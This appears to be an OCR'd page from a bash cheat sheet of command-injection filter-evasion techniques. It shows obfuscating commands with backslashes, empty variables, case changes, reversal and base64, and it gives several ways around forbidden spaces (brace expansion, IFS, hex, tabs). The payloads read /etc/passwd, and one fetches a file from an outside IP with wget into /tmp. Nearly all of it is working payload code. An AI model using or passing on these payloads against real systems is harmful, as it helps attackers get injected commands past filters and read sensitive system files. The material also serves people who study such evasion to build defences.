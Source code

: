 ```bash

#Backslashes
\u\n\a\m\e \-\a # uname -a
/\b\i\n/////s\h

# $@
who$@ami #whoami

# Transformations (case, reverse, base64)
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") #whoami -> Upper case to lower case
$(a="WhOaMi";printf %s "${a,,}") #whoami -> transformation (only bash)
$(rev<<<'imaohw') #whoami
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) #base64


# Execution through $0
echo whoami|$0

# Uninitialized variables: A uninitialized variable equals to null (nothing)
cat$u /etc$u/passwd$u # Use the uninitialized variable without {} before any symbol
p${u}i${u}n${u}g # Equals to ping, use {} to put the uninitialized variables between valid characters

# Fake commands
p$(u)i$(u)n$(u)g # Equals to ping but 3 errors trying to execute "u" are shown
w`u`h`u`o`u`a`u`m`u`i # Equals to whoami but 5 errors trying to execute "u" are shown

# Concatenation of strings using history
!-1 # This will be substitute by the last command executed, and !-2 by the penultimate command
mi # This will throw an error
whoa # This will throw an error
!-1!-2 # This will execute whoami
```

### Bypass forbidden spaces

```bash
# {form}
{cat,lol.txt} # cat lol.txt
{echo,test} # echo test

# IFS - Internal field separator, change " " for any other character ("]" in this case)
cat${IFS}/etc/passwd # cat /etc/passwd
cat$IFS/etc/passwd # cat /etc/passwd

# Put the command line in a variable and then execute it
IFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$b
IFS=];b=cat]/etc/passwd;$b # Using 2 ";"
IFS=,;`cat<<<cat,/etc/passwd` # Using cat twice
#  Other way, just change each space for ${IFS}
echo${IFS}test

# Using hex format
X=$'cat\x20/etc/passwd'&&$X

# Using tabs
echo "ls\x09-l" | bash

# New lines
p\
i\
n\
g # These 4 lines will equal to ping
```